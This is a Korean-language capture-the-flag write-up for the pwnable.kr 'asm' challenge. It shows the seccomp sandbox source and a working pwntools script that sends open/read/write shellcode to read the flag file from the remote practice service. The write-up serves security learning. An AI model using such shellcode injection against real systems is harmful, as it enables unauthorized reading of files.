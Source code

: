 # [pwnable.kr] asm

> Mommy! I think I know how to make shellcodes
>
> ssh asm@pwnable.kr -p2222 (pw: guest)
>
> [Attachment](./attachment)

## Analysis

![image](https://github.com/user-attachments/assets/7c15b029-f8aa-440c-af79-d92d9f008b09)

```c
/* asm.c */

void sandbox(){
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    if (ctx == NULL) {
        printf("seccomp error\n");
        exit(0);
    }

    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

    if (seccomp_load(ctx) < 0){
        seccomp_release(ctx);
        printf("seccomp error\n");
        exit(0);
    }
    seccomp_release(ctx);
}
```

`rsp`와 `rip`를 제외한 모든 레지스터가 초기화된 상태에서, `open`, `read`, `write`, `exit`, `exit_group` system call만 사용하여 플래그 파일의 내용을 읽어야 한다.

## Exploit

```python
# ex.py

from pwn import *

context(arch="amd64")

r = remote("pwnable.kr", 9026)

flag_filename = "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"

shellcode = shellcraft.open(flag_filename)
shellcode += shellcraft.read("rax", 0x41414F00, 0x100)
shellcode += shellcraft.write(1, 0x41414F00, 0x100)
shellcode = asm(shellcode)

r.sendafter(b"give me your x64 shellcode: ", shellcode)

r.interactive()
```

![image](https://github.com/user-attachments/assets/48400fc6-0e69-425a-aab6-4fa5719de826)
